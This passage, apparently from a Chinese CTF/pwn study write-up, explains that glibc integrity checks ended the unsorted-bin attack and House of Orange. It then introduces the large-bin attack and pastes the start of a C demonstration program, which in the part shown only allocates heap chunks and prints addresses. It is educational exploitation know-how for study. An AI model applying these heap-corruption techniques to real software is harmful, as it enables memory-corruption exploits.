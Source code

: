 ​	主要是13行的双向链表完整性检查，基本宣告了`unsorted_bin_attack`和`house_of_orange`的终结。

​	不过还有补救的措施。

#### large_bin_attack

​	救兵就是`large_bin_attack`。关于`large_bin`的利用, [wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/large_bin_attack-zh/)里讲的十分详细。这边直接把代码贴出来。



```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    fprintf(stderr,
            "This file demonstrates large bin attack by writing a large "
            "unsigned long value into stack\n");
    fprintf(stderr,
            "In practice, large bin attack is generally prepared for further "
            "attacks, such as rewriting the "
            "global variable global_max_fast in libc for further fastbin "
            "attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr,
            "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr,
            "Now, we allocate the first large chunk on the heap at: %p\n",
            p1 - 2);

    fprintf(stderr,
            "And allocate another fastbin chunk in order to avoid "
            "consolidating the next large chunk with"
            " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr,
            "Then, we allocate the second large chunk on the heap at: %p\n",
            p2 - 2);

    fprintf(stderr,
            "And allocate another fastbin chunk in order to avoid "
            "consolidating the next large chunk with"
            " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr,
            "Finally, we allocate the third large chunk on the heap at: %p\n",
            p3 - 2);

    fprintf(stderr,
            "And allocate another fastbin chunk in order to avoid "
            "consolidating the top chunk with"
            " the third large chunk during the free()\n\n");
    malloc(0x20);

```